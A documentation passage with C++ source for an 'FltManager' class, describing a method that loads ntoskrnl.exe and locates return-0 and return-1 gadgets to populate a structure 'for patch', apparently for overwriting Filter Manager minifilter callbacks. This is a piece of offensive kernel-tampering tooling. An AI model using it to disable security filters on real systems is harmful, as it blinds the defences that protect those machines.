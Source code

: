 #### FltManager::ResolveFunctionsForPatch
This method is responsible for resolving the default configured functions for the `_HANDLE_FUNCTIONS` structure by mapping `ntoskrnl.exe` into the process and locating the two return gadgets in `nt!KeIsEmptyAffinityEx`.

**Parameters**

\[out\] lpHandyFunctions
A pointer to a `_HANDY_FUNCTIONS` structure to be populated with the return gadgets.

**Returns**

Returns TRUE if able to resolve both functions, FALSE otherwise.


```C++
// This function will load load ntoskrnl, and search the exports defined in 
// FindRet1 and FindRet0 for gadgets which will return 0 and 1 respectively
BOOL FltManager::ResolveFunctionsForPatch(PHANDY_FUNCTIONS lpHandyFunctions)
{
	if (!lpHandyFunctions) {
		return FALSE;
	}
	
	LPVOID lpNtosBase = this->ResolveDriverBase(L"ntoskrnl.exe");
	printf("Ntos base %llx\n", (DWORD64)lpNtosBase);
	HMODULE hNtos = LoadLibraryExA(R"(C:\WINDOWS\System32\ntoskrnl.exe)", NULL, LOAD_LIBRARY_AS_IMAGE_RESOURCE);
	if (!hNtos) {
		puts("Could not load ntos");
		return FALSE;
	}

	// No gods, no masters
	LPVOID lpNtos = (LPVOID)((SIZE_T)hNtos & 0xFFFFFFFFFFFFFF00);

	// initialize a simple loader
	_peb_ldr ldr = _peb_ldr(lpNtos);

	// use the loader to resolve the functions
	lpHandyFunctions->FuncReturns1 = this->FindRet1(lpNtosBase, &ldr);
	lpHandyFunctions->FuncReturns0 = this->FindRet0(lpNtosBase, &ldr);
	return lpHandyFunctions->FuncReturns0 && lpHandyFunctions->FuncReturns1;
}
```

---

#### FltManager::GetFrameForFilter
Retrieves a pointer to the `_FLTP_FRAME` for the given filter.

**Parameters**

\[in\] lpFilter
A pointer to a `_FLT_FILTER` to search
